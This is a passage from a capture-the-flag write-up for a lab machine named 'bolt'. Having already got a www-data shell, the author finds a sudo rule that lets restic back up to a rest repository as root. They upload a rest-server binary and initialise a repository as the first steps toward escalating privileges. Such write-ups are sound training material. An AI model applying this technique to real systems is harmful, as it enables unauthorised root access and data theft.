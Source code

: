 **Note: all the above operation must be done "quickly" as the bolt's
configuration and the uploaded files are reset every few minutes.** Once you get
the reverse shell the reset won't impact you anymore.

## www-data

Now that we are `www-data` we can check our previous assumptions regarding its
`sudo` rights.

  :::text
  $ sudo -l
  Matching Defaults entries for www-data on bolt:
      env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User www-data may run the following commands on bolt:
      (root) NOPASSWD: /usr/bin/restic backup -r rest*

We read carefully the `restic` [documentation](https://restic.readthedocs.io).
The most interesting pages are:
* [How to backup data](https://restic.readthedocs.io/en/stable/040_backup.html)
* [How to create a new repository](https://restic.readthedocs.io/en/stable/030_preparing_a_new_repo.html)
* [And more specificaly how to run a REST repository](https://restic.readthedocs.io/en/stable/030_preparing_a_new_repo.html#rest-server)
* [The github repository of the REST server](https://github.com/restic/rest-server)
* [How to restore a backup](https://restic.readthedocs.io/en/stable/050_restore.html)

From there we upload a complied GO binary of rest-server from the
[github project](https://github.com/restic/rest-server/releases)
to the box using the bolt SSH account.

We create a directory in `/tmp/`, upload our binary and create another
directory for our backups.

    :::text
    bolt@bolt:/tmp$ mkdir ioio2
    bolt@bolt:/tmp$ cd ioio2
    bolt@bolt:/tmp/ioio2$ ls
    rest-server-0.9.7-linux-amd64
    bolt@bolt:/tmp/ioio2$ chmod +x rest-server-0.9.7-linux-amd64
    bolt@bolt:/tmp/ioio2$ mkdir srv

We imitate the `restic` repository in our folder.

    :::text
    bolt@bolt:/tmp/ioio2$ restic init --repo ./srv/
    enter password for new repository:
    enter password again:
    created restic repository b421a8c9a1 at ./srv/

    Please note that knowledge of your password is required to access
    the repository. Losing your password means that your data is
    irrecoverably lost.

